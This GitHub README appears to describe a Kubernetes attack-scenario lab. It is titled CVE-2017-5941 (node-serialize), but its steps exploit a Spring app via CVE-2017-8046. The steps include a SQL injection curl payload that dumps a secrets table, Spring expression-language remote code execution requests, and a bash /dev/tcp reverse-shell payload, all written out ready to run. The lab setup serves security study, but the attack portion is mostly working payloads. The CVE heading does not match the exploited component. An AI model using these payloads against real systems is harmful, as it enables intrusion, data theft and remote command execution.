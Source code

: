 ## CVE-2017-5941
https://nvd.nist.gov/vuln/detail/CVE-2017-5941#range-6741888 \
Target Application: Node \
Software Link: https://www.npmjs.com/package/node-serialize \
Version: 0.0.4 \
Writeup: https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/ \
Used PoCs: 
* https://packetstormsecurity.com/files/161356/Node.JS-Remote-Code-Execution.html
* https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

### Steps to Reproduce

## Setup
1- `minikube start` \
2- In FlaskVulnerableFrontEnd/kube run `kubectl apply -f vulnerable-frontend-deployment.yaml` \
3- In SpringBreakVulnerableApp/kube run `kubectl apply -f springbreak-vulnerable-app-deployment.yaml` \
4- Port-forwar both of them with `kubectl port-forward pods/springbreak-vulnerable-app..... 8090:8090` and `kubectl port-forward pods/vulnerable-frontend-.... 5000:5000` \

## Attack
1- First the attacker uses SQL Injection to the frontend with known ip and port with `curl "http://localhost:5000/search?query='%20UNION%20SELECT%20id,%20secret_info%20AS%20info%20FROM%20secrets%20--"` and finds the internet endpoint of the backend server. \
2- Create the attack entity with `curl -i -X POST -H "Content-Type: application/json" -d '{ "name" : "Test", "attribute" : "foo"}' http://localhost:8090/entity` \
3- Then with this knowledge attacker runs the exploit.py, `python exploit.py --ip <ip from injection> --port <port from injection>` \
4- Attacker has connected a pseudo reverse shell. \

### Demo
[scenario-4.webm](https://github.com/HasanYldz/kubernetes-attack-scenarios/assets/56763025/e9540424-23bd-41c1-8fcc-75b97f8084df)





## Other ways to create the exploit and its payload
1- To Create server jar in SpringBreakVulnerableApp run `mvn clean install spring-boot:repackage` \
2- Run server `mvn spring-boot:run` \
3- To start server in SpringBreakVulnerableApp run `java -jar -Dserver.port=8090 target/SpringBreakVulnerableApp-1.0.jar --debug` \
4- Create data for exploit `curl -i -X POST -H "Content-Type: application/json" -d '{ "name" : "Test", "attribute" : "foo"}' http://localhost:8090/entity` \
5- To Create exploit jar, in spring-break_cve-2017-8046 run `mvn clean compile package` \
6- To execute commands use ` java -jar spring-break_cve-2017-8046-1.3-jar-with-dependencies.jar --url "http://localhost:8090/entity/1" --command "<command>"` or `curl --request PATCH -H "Content-Type: application/json-patch+json" -d '[{ "op" : "replace", "path" : "T(org.springframework.util.StreamUtils).copy(T(java.lang.Runtime).getRuntime().exec(\"<command>\").getInputStream(), T(org.springframework.web.context.request.RequestContextHolder).currentRequestAttributes().getResponse().getOutputStream()).x", "value" : "pwned" }]' "http://localhost:8090/entity/1/"` \

curl --request PATCH -H "Content-Type: application/json-patch+json" -d '[{ "op" : "replace", "path" : "T(org.springframework.util.StreamUtils).copy(T(java.lang.Runtime).getRuntime().exec(\"bash -c '\''exec 5<>/dev/tcp/127.0.0.1/1234;cat <&5 | while read line; do $line 2>&5 >&5; done'\'' \").getInputStream(), T(org.springframework.web.context.request.RequestContextHolder).currentRequestAttributes().getResponse().getOutputStream()).x", "value" : "pwned" }]' "http://localhost:8090/entity/1/"
